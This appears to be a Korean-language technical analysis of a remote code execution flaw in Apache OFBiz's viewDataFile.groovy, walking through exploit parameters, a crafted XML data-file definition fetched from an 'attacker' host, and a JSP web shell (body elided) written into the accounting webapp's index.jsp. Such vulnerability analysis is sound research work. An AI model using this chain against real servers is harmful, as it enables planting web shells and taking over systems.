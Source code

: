 | 파라미터 | 예제 값 |
| --- | --- |
| `DEFINITION_LOCATION` | `http://attacker:80/test.xml` |
| `DATAFILE_LOCATION` | `http://attacker:80/test.csv` |
| `DEFINITION_NAME` | `rce` |
| `DATAFILE_SAVE` | `./applications/accounting/webapp/accounting/index.jsp` |
| `DEFINITION_IS_URL` | `true` |
| `DATAFILE_IS_URL` | `true` |

이 상태에서 `viewDataFile.groovy` 스크립트 로직은 다음과 같습니다.

✅ `ViewDataFile.groovy` 스크립트 로직 정리

1. (3️⃣) `DEFINITION_LOCATION` 의 경로(e.g. `http://attacker:80/test.xml`)를 XML 포맷으로 읽어들여 엔티티 목록을 `definitionNames` 변수에 저장합니다. 
    
    🔍 `http://attacker:80/test.xml` 파일 내용
    
    ```xml
    <data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
            <record name="rceentry" limit="many">
                <field name="jsp" type="String" length="605" position="0"></field>
            </record>
        </data-file>
    </data-files>
    ```
    
    ```
    definitionNames = ["<data-file name="rce" ... > ... </data-files>"]
    ```
    
2. (4️⃣) `DATAFILE_LOCATION` 의 경로(e.g. `http://attacker:80/test.csv`)를 파일로 로드한 뒤, `DEFINITION_LOCATION` 경로의 파일을 참고하여 `definitionName` 변수에 저장된 값(`rce`)에 해당하는 데이터를 `dataFile` 변수에 초기화합니다.
    
    🔍 `http://attacker:80/test.csv` 파일 내용(이 값은 `<field name="jsp" ... length="605" position="0">` 에 정의된 대로, 605자 길이를 가진다고 가정합니다.)
    
    ```xml
    <%@ page import='java.io.*' %> ...생략... %>, // 605 자
    ```
    
    ```
    dataFile = <%@ page import='java.io.*' %> ...생략... %>
    ```
    
3. (6️⃣) `dataFile` 의 값을 `DATAFILE_SAVE` 의 경로(e.g. `./applications/accounting/webapp/accounting/index.jsp`)로 저장합니다.
    
    ```
    cat ./applications/accounting/webapp/accounting/index.jsp
    <%@ page import='java.io.*' %> ...생략... %>
    ```
    
